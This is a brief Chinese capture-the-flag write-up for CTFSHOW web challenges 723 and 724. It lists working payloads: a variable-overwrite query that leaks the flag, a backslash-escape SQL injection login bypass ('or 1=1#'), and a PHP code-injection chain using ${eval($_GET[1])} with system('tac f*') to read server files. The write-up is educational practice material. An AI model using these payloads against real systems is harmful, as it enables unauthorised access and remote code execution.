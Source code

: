 很眼熟的变量覆盖

die($success)：

```
?success=flag
flag=
```

## 723

hint: so easy no hint

应该还是sql

确实不会整，看了g4师傅的wp，猜测语句为：

```php
sql="select * from user where username='".$username."' and password='".$password."';" 
```

用\将单引号转义，万能密码登录

```
useranme：1\
password：or 1=1#
```



## 724

```php
# CTFSHOW hint: 
eval('$code="'.addslashes($value).'";');
```

可以利用${}界定：`${phpinfo()}`

因为有addslashes进行转义，再嵌套一个eval好了

```
GET:?1=system('tac f*');
POST:value=${eval($_GET[1])}
```

